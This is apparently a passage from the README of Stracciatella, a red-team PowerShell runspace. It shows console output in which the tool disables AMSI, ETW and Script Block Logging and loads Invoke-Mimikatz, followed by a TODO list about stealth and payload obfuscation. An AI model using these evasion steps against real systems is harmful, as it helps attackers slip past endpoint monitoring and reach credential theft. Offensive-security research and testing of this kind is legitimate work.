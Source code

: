 ```powershell
This script contains malicious content and has been blocked by your antivirus software.
    + CategoryInfo          : ParserError: (:) [], ParentContainsErrorRecordException
    + FullyQualifiedErrorId : ScriptContainedMaliciousContent

PS D:\> .\Stracciatella.exe -v

  :: Stracciatella - Powershell runspace with AMSI and Script Block Logging disabled.
  Mariusz Banach / mgeeky, '19-22 <mb@binary-offensive.com>
  v0.7

[-] It looks like no script path was given.
[+] AMSI Disabled.
[+] ETW Disabled.
[+] Script Block Logging Disabled.
[.] Language Mode: FullLanguage

Stracciatella D:\> . .\Invoke-Mimikatz.ps1

Stracciatella D:\> Invoke-Mimikatz -Command "coffee exit"

  .#####.   mimikatz 2.1 (x64) built on Nov 10 2016 15:31:14
 .## ^ ##.  "A La Vie, A L'Amour"
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                     with 20 modules * * */

mimikatz(powershell) # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

mimikatz(powershell) # exit
Bye!
```

## Known-issues, TODO

Currently, the way the Stracciatella provides runspace for powershell commands is not the most stealthiest out there. We basically create a Powershell runspace, which loads up corresponding .NET Assembly. This might be considered as a flag that stracciatella's process is somewhat shady. 

- **Currently not able to perform a full cleanup of CLM disabling artefacts: DLL files in-use, left in %TEMP%.**
- Implement rolling XOR with 2,3 and 4 bytes long key.
- Implement more encoding/encryption strategies, especially ones utilising environmental keying
- Add Tab-autocompletion and support for Up/Down arrows (having provided that plaintext commands are not going to be stored in Straciatella's memory)
- Add coloured outputs
- Script Block Logging bypass _may not be effective_ against Windows Server 2016 and Windows 10 as reported [here](https://github.com/mgeeky/Stracciatella/issues/4)
